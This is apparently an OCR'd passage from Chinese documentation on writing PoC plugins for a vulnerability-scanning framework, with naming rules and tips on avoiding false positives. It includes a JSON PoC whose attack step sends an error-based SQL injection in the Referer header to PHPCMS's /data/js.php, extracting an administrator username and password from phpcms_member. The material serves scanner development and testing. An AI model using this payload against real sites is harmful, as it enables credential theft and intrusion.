                "<span class="hljs-attribute">headers</span>": <span class="hljs-value">{"<span class="hljs-attribute">Referer</span>":<span class="hljs-value"><span class="hljs-string">"1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),char(45,45,45),(SELECT md5(1)))a from information_schema.tables group by a)b), '0')#"</span></span>}</span>,
                "<span class="hljs-attribute">status</span>": <span class="hljs-value"><span class="hljs-string">"200"</span></span>,
                "<span class="hljs-attribute">match</span>": <span class="hljs-value">{
                    "<span class="hljs-attribute">regex</span>": <span class="hljs-value">[<span class="hljs-string">"c4ca4238a0b923820dcc509a6f75849b"</span>]</span>,
                    "<span class="hljs-attribute">time</span>":<span class="hljs-value"><span class="hljs-string">""</span>
                </span>}
            </span>}
        ]</span>,
        "<span class="hljs-attribute">attack</span>": <span class="hljs-value">[
            {
                "<span class="hljs-attribute">step</span>": <span class="hljs-value"><span class="hljs-string">"0"</span></span>,
                "<span class="hljs-attribute">method</span>": <span class="hljs-value"><span class="hljs-string">"get"</span></span>,
                "<span class="hljs-attribute">vulPath</span>": <span class="hljs-value"><span class="hljs-string">"/data/js.php"</span></span>,
                "<span class="hljs-attribute">params</span>": <span class="hljs-value"><span class="hljs-string">"id=1"</span></span>,
                "<span class="hljs-attribute">necessary</span>": <span class="hljs-value"><span class="hljs-string">""</span></span>,
                "<span class="hljs-attribute">headers</span>": <span class="hljs-value">{"<span class="hljs-attribute">Referer</span>":<span class="hljs-value"><span class="hljs-string">"1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),char(45,45),(SELECT concat(username,char(45,45,45),password,char(45,45)) from phpcms_member limit 1))a from information_schema.tables group by a)b), '0')#"</span></span>}</span>,
                "<span class="hljs-attribute">status</span>":<span class="hljs-value"><span class="hljs-string">"200"</span></span>,
                "<span class="hljs-attribute">match</span>":<span class="hljs-value">{
                    "<span class="hljs-attribute">regex</span>": <span class="hljs-value">[<span class="hljs-string">"Duplicate"</span>]</span>,
                    "<span class="hljs-attribute">time</span>": <span class="hljs-value"><span class="hljs-string">""</span>
                </span>}</span>,
                "<span class="hljs-attribute">result</span>":<span class="hljs-value">{
                    "<span class="hljs-attribute">AdminInfo</span>":<span class="hljs-value">{
                        "<span class="hljs-attribute">Username</span>":<span class="hljs-value"><span class="hljs-string">"&lt;regex&gt;--(.+)---"</span></span>,
                        "<span class="hljs-attribute">Password</span>": <span class="hljs-value"><span class="hljs-string">"&lt;regex&gt;---(.+)--"</span>
                    </span>}
                </span>}
            </span>}
        ]
    </span>}
</span>}
</code></pre><h4 id="poc-a-id-pocstandard-a-">PoC 规范说明<a id="pocstandard"></a></h4>
<h4 id="poc-a-id-named-a-">PoC 命名规范<a id="named"></a></h4>
<p> PoC 命名分成 3 个部分组成漏洞应用名<em>版本号</em>漏洞类型名称 然后把文件名中的所有字母改写为小写，所有的符号改成_。文件名不能有特殊字符和大写字母。 规范的文件名示例</p>
<pre class="hljs"><code>    _1847_seeyon_3_1_login_info_disclosure.py
</code></pre><h4 id="-a-id-category-a-">漏洞类型规范<a id="category"></a><a></a></h4><a>
</a><p><a>参考</a><a href="http://seebug.org/category">漏洞分类</a></p>
<h4 id="poc-a-id-notice-a-">PoC 编写注意事项<a id="notice"></a></h4>
<p>1、 Verify 模式为了防止误报的产生,我们一般使用的让页面输出一个自定义的字符串。</p>
<p>比如:</p>
<p>检测 SQL 注入时,<code>select md5(0x2333333)</code></p>
<pre class="hljs markdown"><code>if '5e2e9b556d77c86ab48075a94740b6f7' in content:
  result['VerifyInfo'] = {}